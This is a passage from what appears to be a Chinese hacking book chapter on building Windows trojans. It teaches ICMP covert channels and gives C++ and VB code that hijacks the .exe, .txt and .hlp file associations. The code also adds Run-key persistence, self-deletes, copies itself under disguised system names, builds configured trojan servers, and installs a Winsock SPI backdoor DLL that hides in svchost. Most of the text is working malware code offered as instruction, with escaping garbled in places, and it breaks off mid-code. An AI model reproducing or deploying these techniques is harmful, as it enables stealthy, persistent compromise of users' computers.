使用第三方公布客户端IP不是一种可靠的方法。比如如果是通过一个个人主页发布客户端IP的话，一旦由于种种原因，这个个人主页被主页提供商取消的话，服务端就找不到客户端了。而这种个人主页被主页提供商取消的可能性是很大的。同时客户端也要冒暴露自己IP的风险。所以更好的方法是客户端通过某种方法主动告诉服务端自己的IP和端口，然后服务端来连接。这样可以保证最大的可靠性，安全性和灵活性。

服务端怎么收到客户端的通知呢？一种方法是我们截获其他进程收到的TCP数据或者UDP包，然后分析截获的数据，从中确定是否客户端发来了一个报告其IP的数据片断。另一种方法是使用RAW Socket来收听ECHO REPLY类型的ICMP包，在ICMP数据包的数据里就包含了客户端IP。而对于普通用户来说，由于要上网浏览，这样的ICMP包是很少过滤掉的。

### 6. 用ICMP来通讯

既然客户端可以通过发一个ICMP(ECHO REPLY)来告诉服务端它的IP，那为什么不把所有服务端和客户端的通讯都建立在ICMP (Internet Control Message Protocol) 的基础上呢？服务端向客户端发ICMP(ECHO REQUEST)，客户端向服务端发ICMP(ECHO REPLY)，然后可以在ICMP基础上建立一个自己的可靠数据包通讯协议。如果不怕烦的话，还可以建立一个TCP over ICMP。由于一般的用户这两类ICMP包都是设为无警告放行的，因而隐秘性很强。

### 7. 用自定义的协议来通讯

我们知道IP头的协议字段指定了这个IP包承载的数据的协议，比如TCP, UDP, ICMP等等。我们完全可以把这个字段设为我们自己定义的值(>80)，定义自己的通讯协议。不过，估计这种IP包将会被所有的防火墙过滤掉。原理是如此，具体怎样做我就真的不知道了。

最后要说明一点，前面所说都是针对个人用户（大部分都是拨号用户，包括Modem, ISDN, ADSL, FTTX+LA, Cable Modem）的。对这类机器来说，一般都没有开什么服务，而且一般都使用了个人防火墙；同时，ICMP ECHO REPLY/REQUEST都是放行的，所有才有我们上述的各种方案。

通讯隐藏技术只是木马隐藏诸多技术中的一部分，但也是最重要的一部分。因为它不但要保护木马，还要保护木马的控制者，所以不管是木马编写者，还是防火墙编写者，都应该对这一部分给于足够的重视。

### 2.8 你的木马有没有关联文件

我们知道，一般情况下要想开机时即启动某个程序，就要把该程序的执行命令行写在注册表中的HKEY_CURRENT_USER\Software\Microsoft\ Windows\CurrentVersion\Run、HKEY_LOCAL_MACHINE\SOFTWARE\ Microsoft\Windows\ CurrentVersion\Run、HKEY_LOCAL_MACHINE\SOFTWARE\ Microsoft\Windows\ CurrentVersion\RunService等环境中，由于这些值大家都比较熟悉，所以很容易被查出，而且进入了Windows保护模式，这些程序是不会运行的，但是如果我们将这些要执行的程序在注册表中进行了关联，却可以收到很好的效果。

在注册表HKEY_CLASSES_ROOT\exefile\ shell\open\command中的值就是可执行程序*.exe 文件的关联处，缺省为“"%1" %*”，如果把这个程序改为我们的木马程序，那么，每执行一个可执行程序，就会执行我们的程序，而不会再执行原有的程序，这样，我们的木马就启动了。我们要做的工作就是我们的木马启动后，再执行原有的程序，这样对于一般的人来看，好像什么事也没发生过。好了，心动不如行动，我们开始动手做一个吧。

首先用VC建立一个基于对话框的程序srart。

在CstartDlg加入公有变量HANDLE hMutex;防止我们的木马运行多次。

在CStartDlg::OnInitDialog()中加入如下函数：

```
CString str;
str.Format("%s", AfxGetApp()->m_lpCmdLine);//取得传入的命令行参数
const char *MutexObject="MyStart";//建立互斥对象
hMutex=NULL;
hMutex=::CreateMutex(false,false,MutexObject);
if(hMutex!=NULL)
{
DWORD err=GetLastError();
if(err==ERROR_ALREADY_EXISTS) ::PostQuitMessage(0);//如果发现同一程序已经运行，则退出
}
if(str!="")
{
CString temp;
char ch;
int length =str.GetLength();
for(int i=0;i<length;i++)
{
ch=str.GetAt(i);
if(ch=='\')
temp=temp+"";
else temp=temp+ch;
}
temp = temp.Left(temp.GetLength() - 2);
temp = temp.Mid(1);//上面的函数是把字符串中所有的""变为""
char str1[]=""%1" %*";
::RegSetValue(HKEY_CLASSES_ROOT,"exefile\shell\open\command",
REG_SZ,(LPCTSTR)str1 , strlen(str1) + 1);
// 在执行原有程序之前必须把注册表恢复，否则用 ShellExecute 还是执行我们的木马程序。
ShellExecute(NULL,"open",temp,NULL,NULL,SW_SHOW);//执行原有的程序
}

// 在程序执行完成后，再把注册表改为我们要启动的木马程序的
TCHAR str2[256];
// 得到程序全路径名
GetModuleFileName( NULL, str2, 255 );
strcat(str2," "%%1" %*");
::RegSetValue(HKEY_CLASSES_ROOT,"exefile\shell\open\command",
REG_SZ,(LPCTSTR)str2 , strlen(str2) + 1);

// 经过上述过程，只要程序一运行，就会执行我们的start 程序了。即使是在安全模式下，只要执行可
执行程序，就会运行我们的程序了。
```

同样的，我们也可以将其他文件进行关联，例如将文本文件进行关联，在 CStartDlg::OnInitDialog() 中重新加入如下代码：

```
CString str;
str.Format("%s",AfxGetApp()->m_lpCmdLine);//取得传入的命令行参数
const char *MutexObject="MyStart";//建立互斥对象
hMutex=NULL;
hMutex=::CreateMutex(false,false,MutexObject);
if(hMutex!=NULL)
{
DWORD err=GetLastError();

if(err==ERROR_ALREADY_EXISTS) ::PostQuitMessage(0);//如果发现同一程序已经运行，则退出
}
if(str.Find("txt")!=-1)
{
CString temp;
char ch;
int length =str.GetLength();
for(int i=0;i<length;i++)
{
ch=str.GetAt(i);
if(ch=='\')
temp=temp+"";
else temp=temp+ch;
}
temp = temp.Left(temp.GetLength() - 2);
temp = temp.Mid(1);//上面的函数是把字符串中的 "" 变为 ""
char str1[]=""%%1" %*";

// 在执行原有程序之前必须把注册表恢复，否则用 ShellExecute 还是执行我们的木马程序。
ShellExecute(NULL,"open","notepad.exe",temp,NULL,SW_SHOW);//执行原有的程序

// 在程序执行完成后，再把注册表改为我们要启动的木马程序的
TCHAR str2[256];
// 得到程序全路径名
GetModuleFileName( NULL, str2, 255 );
strcat(str2," "%1" %*");
::RegSetValue(HKEY_CLASSES_ROOT,"txtfile\shell\open\command",
REG_SZ,(LPCTSTR)str2 , strlen(str2) + 1);
// 经过上述过程，只要程序一运行，就会执行我们的start 程序了。
```

当然了这些程序在自己的机器上运行后还是要恢复的。下面的函数就可以帮助进行恢复了：

```
char str2[]="NOTEPAD.EXE %1";
::RegSetValue(HKEY_CLASSES_ROOT,"txtfile\shell\open\command",
REG_SZ,(LPCTSTR)str2 , strlen(str2) + 1);
char str1[]=""%1" %*";
::RegSetValue(HKEY_CLASSES_ROOT,"exe file\shell\open\command",
REG_SZ,(LPCTSTR)str1 , strlen(str1) + 1);
```

需要说明一点：这个程序在Windows 98下运行比较正常，在Windows 2000下无法打开桌面上的文件夹。

### 2.9 如何实现根据用户配置生成木马服务器端

大家一定都用过像冰河、winshell这样的木马，它们可以根据用户的配置（比如说：自定义端口等），生成一个服务器端程序，以前我一直不太明白其中的原理，难道说这类软件会自动编译程序？呵呵，后来在安全焦点看到glacier写的文章，大概说了一下原理。随后又在网上找了一下相关的资料，自己编程实现了一下。不亲自动手做，觉得很神奇，其实明白了原理，亲自实践一下就会非常清楚了。下面，我就来说一下具体的原理和我写的测试程序。以下程序都是在Windows 2000 + SP3 + VC++.7.0编译的，如果你用的是VC++6.0，可能过程稍有不同，但是代码应该都是相同的：）


首先，我们先要写好一个服务器端程序，为了测试，就不写那种开端口监听，然后调用管道操作cmd的了。直接写个一运行就根据用户的配置弹出一个对话框，上面有用户配置的时候输入的字符串，如图2-13所示。

这是没有配置的时候，所以什么都没有显示。下面我们就来建立这个程序。打开vc.net编译器，新建->项目->选择建立一个win32工程，名为testconfig，然后在弹出来的对话框中选择控制台程序，mfc支持，确定后就可以输入代码了，代码如下：

```
int _tmain(int argc, TCHAR* argv[], TCHAR* envp[])
{
int nRetCode = 0;
// 初始化 MFC 并在失败时显示错误
if (!AfxWinInit(::GetModuleHandle(NULL), NULL, ::GetCommandLine(), 0))
{
// TODO: 更改错误代码以符合您的需要
_tprintf(_T("致命错误: MFC 初始化失败\n"));
nRetCode = 1;
}
else
{
// TODO: 在此处为应用程序的行为编写代码。
CFile readconfig;
char path[256];
char config[10];
GetCurrentDirectory(255,path);
strcpy(path,argv[0]);
readconfig.Open(path,CFile::modeRead|CFile::typeBinary,NULL);
readconfig.Seek(-10,CFile::end);
readconfig.Read(config,10);
MessageBox(NULL,config,"success",NULL);
}
return nRetCode;
}
黑体部分是我们要输入的，还有就是在头文件中加入
#include "windows.h"
#include "string.h"
```

程序:大体就是以二进制打开自身的文件，把文件指针移动到尾部，然后读取10个字节的内容，再调用MessageBox输入出来。程序很简单，就不做过多的解释了。接下来，我们编译运行(编译出来的文件名为testconfig.exe)，就会看见弹出了刚才图1的messagebox。

好了，如果没什么错，下面我们来写配置程序，建立工程和刚才一样，代码如下:

```
int _tmain(int argc, TCHAR* argv[], TCHAR* envp[])
{
int nRetCode = 0;
// 初始化 MFC 并在失败时显示错误
if (!AfxWinInit(::GetModuleHandle(NULL), NULL, ::GetCommandLine(), 0))
{
// TODO: 更改错误代码以符合您的需要
_tprintf(_T("致命错误: MFC 初始化失败\n"));
nRetCode = 1;
}
else
{
// TODO: 在此处为应用程序的行为编写代码。
// 释放资源文件部分
HRSRC hRes = FindResource(NULL,MAKEINTRESOURCE(IDR_TEST1),_T("test"));
// 获得指定资源的大小
DWORD dwSize = SizeofResource(NULL, hRes);
// 将资源载入内存
HGLOBAL MemoryHandle = LoadResource(NULL, hRes);
if(MemoryHandle!= NULL)
{
BYTE *MemPtr = (BYTE *)LockResource(MemoryHandle);
// 定位资源位置
char path[256];
GetCurrentDirectory(255,path);
```

## 第2章 远程控制程序开发

```
strcat(path,"\\testconfig.exe");
//创建一个文件，写入资源数据
CFile file(path,CFile::modeCreate | CFile::modeWrite);
file.Write(MemoryHandle,dwSize);
file.Close();
}
CFile setconfig;
char path[256];
char test[10];
GetCurrentDirectory(255,path);
strcat(path,"\\testconfig.exe");
if (!setconfig.Open(path,CFile::modeWrite|CFile::typeBinary,NULL))
{
cout <<"找不到testconfig.exe文件"<<endl;
return -1;
}
setconfig.SeekToEnd();
cout <<"请输入你想要进行配置的字符串:";
cin >> test;
setconfig.Write(test,10);
setconfig.Close();
}
return nRetCode;
}
```

同时，也不要忘记加头文件，和刚才一样。输入完代码后（编译有错误呀！当然了，我们还没有导入刚才编译好的服务器端文件呢），选择资源对话框，如图2-14所示。



## 图2-14

添加一个资源，在弹出的添加资源对话框中选择导入，然后找到你刚才编译的.exe程序，我编译的程序叫testconfig.exe，“确定”后，编译器会让你给这个资源命名。随便输入一个test，确定后就会发现资源窗口中多了一个test的资源。这时候，这个资源还是外部资源，我们要把它改为我们配置程序的内部资源，如图2-15所示。

> HACKER DEFENCE www.hacker-defence.com 编程解析精粹 53



图2-15

这时候，我们最开始编写的testconfig.exe文件就已经是我们现在程序的内部资源了。程序的流程大体是这样的，首先找到内部资源testconfig.exe，然后把它读到内存中，再新建一个文件，将内存中的内容写到新建文件里面。这样，这个新建的文件就变成一个可执行文件了。

然后，我们再向这个文件末尾写入10个字节的东西，当它运行的时候就会先读取自身结尾10个字节的东西，然后显示出来。

现在让我们编译，运行程序，会看到弹出来一个cmd窗口，让我们输入字符串，我们输入一个test，回车后，会发现在它的目录中出现了一个testconfig.exe的文件，运行它，就会弹出我们刚才输入的test，如图2-16所示。


图2-16

Yeah，写木马的时候就是这个方法来达到根据用户配置生成可执行文件的功能，现在大家都明白了吧，如果有什么不明白的，可以跟我联系sh0cker@163.com，或者来c4st.51.net的论坛技术交流版与大家讨论。

### 2.10 如何制作无进程的木马

### 一、Windows下进程的隐藏

在MS的32位操作系统中，有许多办法可以实现进程隐藏的功能。在Windows 98下将程序注册为系统服务就可以实现在进程列表里的隐藏，但是在Windows NT/2000下，由于操作系统添加了许多特性使得进程的隐藏提到了一个新的高度。其中，DLL木马是非常流行的一种形式，它将自己添加到其他可执行文件的进程里，这样在任务管理器里就不会出现我们的DLL文件，而是我们DLL的载体EXE文件。在Jeffrey Richter大师的文章里提到了好几种插入DLL的方式，比如说在注册表的AppInit_DLLs里添加木马DLL，特洛伊DLL方式，使用Windows挂钩和远程线程的插入等等。在此我就不做详细介绍了。现在给大家介绍一种隐藏进程的新方法，它仍然是以DLL的形式存在的（同样需要由其他可执行文件来加载），而且还具有无端口的特性。它就是使用了Windows Socket 2的新特性，服务提供者接口（Service Provider Interface），SPI支持所有的32位Windows操作系统，当然也包括Windows 95。

### 二、Windows Socket 2 SPI技术概述

Winsock 2 SPI是一个新特性，是为书写服务提供者的人员提供的。Winsock 2不仅提供了一个供应用程序访问网络服务的Windows Socket应用程序编程接口（API），还包含了由传输服务提供者和名字解析服务提供者实现的Winsock服务提供者接口（SPI）和ws2_32.dll。在此以传输服务提供者为例来实现进程的隐藏。如下是应用程序，Ws2_32.dll和传输服务提供者接口之间的层次关系：



传输服务提供者是以DLL的形式存在的，它向外只有一个入口函数，那就是WSPStartup，其中的参数LPWSAPROTOCOL_INFOW结构指针决定了服务提供者的类型，其他的30个传输服务提供者函数是以分配表的方式调用的。当网络应用程序调用WSASocket/socket函数创建套接字时，会有3个参数：地址族，套接字类型和协议，正是这3个参数共同决定了是由哪一个类型的传输服务提供者来实现本应用程序的功能。在整个层次结构中，Ws2_32.dll只是起到了媒介的作用，应用程序则是对用户功能的实现，而真正实现网络传输功能的是传输服务提供者接口。当前系统中有一些默认的服务提供者，它们已经实现了大部分基本的功能，所以我们自己在书写服务提供者程序时，只须对数据包进行“修饰”后，将数据包传送给系统服务提供者来实现剩下的功能。

在服务提供者中有3种协议：分层协议，基础协议和协议链。区分它们的方法是通过结构WSAPROTOCOL_INFOW中的Protocolchain结构的ChainLen值来实现的。分层协议的ChainLen值为0，基础协议的值为1，而协议链的值大于1。其实分层协议和基础协议在功能实现上没有太大的区别（均可通过调用系统服务提供者实现数据转发），但是在安装上却有很大的不同。安装基础协议时，我们把所有的基础服务提供者的DLL文件名和路径都替换为我们自定义的基础协议；而安装分层协议后，我们还必须将和分层协议有关的各个协议组成协议链，然后再安装协议链。在所有的服务提供者都安装完后，我们还必须重新排列它们的安装顺序，这一点很重要。当我们的WSASocket/socket创建套接字时，Ws2_32.dll就会在服务提供者数据库中按顺序搜索和WSAStartup/socket提供的3个参数相匹配的服务提供者，如果同时有两个相同类型的服务提供者存在于服务提供者数据库中，那么顺序在前的那个服务提供者就会被调用。通常，在我们安装完自己的服务提供者后，都会将自己的服务提供者重新排列在最前面。在实例instBD.exe中，我们以分层协议为例，展示如何安装传输服务提供者。

Ws2_32.dll是使用标准的动态链接库来加载服务提供者接口的DLL到系统中去的，并调用WSPStartup来初始化。WSPStartup是Windows Socket 2应用程序调用SPI程序的初始化函数，也就是入口函数。WSPStartup的参数LPWSAPROTOCOL_INFOW指针提供应用程序所期望的协议信息，通过这个结构指针我们可以获得所保存的系统服务提供者的DLL名称和路径，加载系统服务提供者后查找到系统SPI程序的WSPStartup函数的指针，通过这个指针我们就可以将自己服务提供者的WSPStartup函数和系统SPI程序的WSPStartup函数相关联，进而调用系统的各个服务提供者函数。在数据传输服务提供者的实现中，我们需要两个程序，一个是可执行文件用来安装传输服务提供者；另一个就是DLL形式的数据传输服务提供者。

### 三、基于SPI的DLL木马技术

上面我们已经介绍了传输服务提供者的特性，现在让我们来看看如果将这种技术运用于木马进程隐藏的。在每个操作系统中都有系统网络服务，它们是在系统启动时自动加载，而且很多是基于IP协议的。如果我们书写了一个IP协议的传输服务提供者，并安装在服务提供者数据库的最前端，系统网络服务就会加载我们的服务提供者。如果将木马程序嵌入到服务提供者的DLL文件之中，在启动系统网络服务时，我们的木马程序也会被启动。这种形式的DLL木马只须被安装一次，而后就会被自动加载到可执行文件的进程中；还有一个特点就是它会被多个网络服务加载。通常在系统关闭时，系统网络服务才会结束，所以我们的木马程序同样可以在系统运行时保持激活状态。

在传输服务提供者中，有30个SPI函数是以分配表的形式存在的。在Ws2_32.dll中的大多数函数都有与之对应的传输服务提供者函数。如WSPRecv和WSPSend，它们在Ws2_32.dll中的对应函数是WSARecv和WSASend。我们假设自己编写了一个基于IP协议的服务提供者并安装于系统之中，当系统重启时，它被svchost.exe程序加载了，而且svchost.exe在135/TCP监听，万事俱备了。在我们的传输服务提供者中，自己重新编写了WSPRecv函数，对接收到的数据进行分析，如果其中含有客户端发送过来的暗号，就执行相应的命令获得期望的动作，之后我们可以调用WSPSend函数将结果发送到客户端，这样不仅隐藏了进程，而且还重用了已有的端口。

#### 四、主要代码分析

##### 1. instBD.exe

可执行程序instBD.exe的主要功能是安装我们自己的分层传输服务提供者，并重新排列所有传输服务提供者的顺序，使我们的服务提供者位于协议链的顶端，这样相应类型的应用程序就会首先进入我们的传输服务提供者接口。本程序只有一个参数，就是安装（-install）或卸载（-remove）。作为演示，本程序只安装了IP分层协议及与TCP相关的协议链。在backdoor.dll中，我们不对数据包进行任何修饰，只是在启动我们的木马进程。

自定义函数：

```
BOOL getfilter(); //获得所有已经安装的传输服务提供者
void freefilter();//释放存储空间
void installfilter(); //安装分层协议，协议链及排序
void removefilter(); //卸载分层协议和协议链
```

代码分析：

```
protoinfo=(LPWSAPROTOCOL_INFO)GlobalAlloc(GPTR,protinfosize);
//分配 WSAPROTOCOL_INFO 结构的存储空间
totalprotos=WSCEnumProtocols(NULL,protoinfo,&protinfosize,&errorcode);
// 获得系统中已安装的所有服务提供者
GetCurrentDirectory(MAX_PATH,filter_path);
// 得到当前的路径
_tcscpy(filter_name,_T("\\backdoor.dll"));
// 构造服务提供者文件backdoor.dll 的路径全名
WSCInstallProvider(&filterguid,filter_path,&iplayerinfo,1,&errorcode);
// 安装自定义的IP 分层协议
iplayercataid=protoinfo[i].dwCatalogEntryId;
// 获得已安装自定义IP 分层协议的由Ws2_32.dll 分配的唯一标志
udpchaininfo.ProtocolChain.ChainEntries[0]=iplayercataid;
// 将自定义的IP 分层协议作为自定义UDP 协议链的根分层服务提供者安装在协议链的顶端
WSCInstallProvider(&filterchainguid,filter_path,chainarray,provcent,&errorcode);
// 安装协议链
WSCWriteProviderOrder(cataentries,totalprotos);
// 更新所有服务提供者的安装顺序，把自定义的服务提供者排在所有协议的最前列
WSCDeinstallProvider(&filterguid,&errorcode);
// 卸载 IP 分层协议
WSCDeinstallProvider(&filterchainguid,&errorcode);
// 卸载协议链
```

##### 2. backdoor.dll

传输服务提供者都是以动态链接库的形式存在的，在应用程序需要时由Ws2_32.dll加载，在用完之后就被卸载。传输服务提供者只有一个入口函数就是WSPStartup，它是Windows Socket 应用程序调用SPI的初始化函数，其他SPI函数的调用都是通过WSPStartup的参数WSPUPCALLTABLE来实现的。其中有个全局变量，可共所有调用DLL的程序读取与修改。在首次加载服务提供者时，我们启动木马进程。演示中木马进程没有任何特别的功能，当客户端和监听的服务器端口连接后，如果客户端发送了特定的暗号，服务端就会回送特定的消息。

自定义函数：

```
int WSPAPI WSPStartup( WORD wversionrequested,LPWSPDATA lpwspdata,
LPWSAPROTOCOL_INFOW lpprotoinfo,
WSPUPCALLTABLE upcalltable,LPWSPPROC_TABLE lpproctable);
//SPI函数WSPStartup和Windows Socket 2的API函数WSAStartup相对应，WSPStartup是唯一的入口函数，剩下的30个SPI函数则是通过参数upcalltable来实现的，它们只能在内部调用，不向外提供入口。
```

代码分析：

```
hthread=CreateThread(NULL,0,backdoor,NULL,0,NULL);
// 创建木马进程，它只是展示数据的流通
GetModuleFileName(NULL,processname,MAX_PATH);
// 获得调用本服务提供者动态链接库的可执行文件的全名
OutputDebugString(_T("Start the backdoor ..."));
// 输出调试信息
layerid=protoinfo[i].dwCatalogEntryId;
// 获得已安装自定义IP 分层协议的由 Ws2_32.dll 分配的唯一标志
nextlayerid=lpprotoinfo->ProtocolChain.ChainEntries[i+1];
// 获得下一层传输服务提供者的标志信息
WSCGetProviderPath(&protoinfo[i].ProviderId,filterpath,&filterpathlen,&errorcode);
// 获得下一层传输服务提供者的安装路径
ExpandEnvironmentStrings(filterpath,filterpath,MAX_PATH);
// 扩展环境变量
hfilter=LoadLibrary(filterpath);
// 装载下一层传输服务提供者
wspstartupfunc=(LPWSPSTARTUP)GetProcAddress(hfilter,"WSPStartup");
// 获得下一层传输服务提供者的入口函数 WSPStartup，以便调用
wspstartupfunc(wversionrequested,lpwspdata,lpprotoinfo,upcalltable,lpproctable);
// 调用下一层传输服务提供者的 WSPStartup 函数，实现钩子功能
nextproctable=*lpproctable;
// 保存下一层服务提供者的 30 个服务函数指针
由于以动态链接库形式的服务提供者要向外提供一个入口函数，因此还须一个配置文件backdoor.def:
EXPORTSWSPStartup
// 向外提供入口函数 WSPStartup
```

##### 3. testBD.exe

这是一个测试程序，用来检测木马的服务器端是否正常工作。在它发送特定的消息到服务器端后，如果服务器正常工作就会回送特定的消息，反之则不会收到任何消息。由于木马的服务器在TCP的12345端口监听，所以我们的客户端也是基于TCP协议的。

#### 五、小结与后记

本节的目的在于向大家介绍一种编程思路，因此不是任何木马教程。其实只有在不断的对抗中，技术和思路才会不断提高。我们只有充分了解了各种技术，甚至有前瞻的能力，才能维护好网络秩序，促进网络安全的发展。

#### 六、附源代码（光盘）



## 2.11 Windows“木马”技术浅析

随着互联网技术的不断发展，“特洛伊木马”程序已经被黑客们广泛使用。从BO到国产新秀“冰河”，凡是尝到它们苦头的人，无不谈“马”色变。为有效地防范越来越多的“木马”的侵害，有必要对其基本技术稍作了解，以做到“知己知彼”。本节使用编程语言VISUAL BASIC通过实例作简要分析，供大家参考。

#### 一、程序自杀？它到哪儿去了？

有的时候，当你运行一个来历不明的程序，硬盘灯闪烁几下便没了动静，更有甚者，该程序已经无影无踪。难道它把自己删除了？不要感到这个想法可笑，请看下文：

```
Private Sub Form_Load()
Dim s
s = App.Path + "" + App.EXEName + ".exe"
' 获取可执行文件的具体路径及其文件名
Open "c:\windows\desktop\agfaa.bat" For Output As #1
' 编写一个批处理程序供调用
Print #1, "choice /cYN/n/t:Y,2"
' 批处理命令，相当于延迟2秒
Print #1, "del "; s ' 删除可执行文件
Print #1, "del c:\windows\desktop\agfaa.bat"
' 删除批处理程序自身
Close #1
Unload Me
End Sub
Private Sub Form_QueryUnload(Cancel As Integer, UnloadMode As Integer)
Dim t
t = Shell("c:\windows\desktop\agfaa.bat ", vbHide)
' 调用外部批处理程序
End
End Sub
```

## 程序编译成可执行文件，运行一下，眼见为实。

当然，现实中没有哪个傻瓜会弄个自己删除自己的程序，你看到它从眼皮底下消失，很可能它已经在别处“脱胎换骨”了。比如，很多“木马”程序都把自己放在WINDOWS的系统目录下，且有一个挺迷惑人的名字。在上述代码UNLOAD ME前加上这么一句：

```
FileCopy s, "c:\windows\system\Msexplr.exe"
```

你的可执行文件便在系统目录下以Msexplr.exe的名字重现了。一切都是在人毫无察觉的情况下进行，这就是“木马”的可怕之处。

然而，可怕的不仅仅是这一处，下面的东西更让人防不胜防。

#### 二、幽灵？删除不掉的程序？

仅仅把自己挪动个位置并不能达到“木马”窃取信息的目的，它必须能在进入操作系统时自动加载，这需要修改WINDOWS的注册表。对于使WINDOWS进入时自动运行程序，很多文章都有介绍，在此不作过多描述，后面代码中会有说明。现在，讨论一下为什么会出现文件删除后又出现的情况。

多数有一定经验的人，都会从WINDOWS的启动项目中，寻找到可疑程序的具体路径，并把它删除。但有的“木马”，当你把从以上方法找到的可执行文件删除后，再一段时间后，又重新出现，这是怎么回事？一般来说，这是因为它还有一个副本，并与其它文件建立了关联，这也通过注册表实现。当打开与之相关联的文件时，该副本恢复原可执行文件。比如，当点击后缀为.hlp的帮助文件时，系统会自动打开WINHLP32这个程序。如果注册表中的对应项被改成了“木马”程序副本的文件名，副本便执行，它可再复制个原文件到相应目录下，你删除的文件便复活了。修改注册表源代码如下：

```
Option Explicit
Const HKEY_LOCAL_MACHINE = &H80000002 '注册表主键
Const REGKEY = "Software\microsoft\windows\currentversion"
Const REGKEY1 = "Software\CLASSES\hlpfile\shell\open"
'定义所用子键
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
Private Declare Function RegSetValue Lib "advapi32.dll" Alias "RegSetValueA" (ByVal hKey As Long, ByVal lpSubKey As String, ByVal dwType As Long, ByVal lpData As String, ByVal cbData As Long) As Long
'声明两个与注册表相关的API函数
Private Sub Form_Load()
App.TaskVisible = False '使进程栏中不可见
Dim s
s = App.Path + "" + App.EXEName + ".exe"
'获取可执行文件详细信息
On Error Resume Next
FileCopy s, "c:\windows\system\kpcom32.exe" '拷贝自身
Dim retvAlue As Long
Dim keyId As Long
Dim keyvaluE As String
Dim subKey As String
retvAlue = RegCreateKey(HKEY_LOCAL_MACHINE, REGKEY, keyId)
subKey = "run"
keyvaluE = "c:\windows\system\kpcom32.exe"
retvAlue = RegSetValue(keyId, subKey, 0, keyvaluE, Len(keyvaluE))
'修改注册表键值，使kpcom32.exe在WINDOWS启动时运行
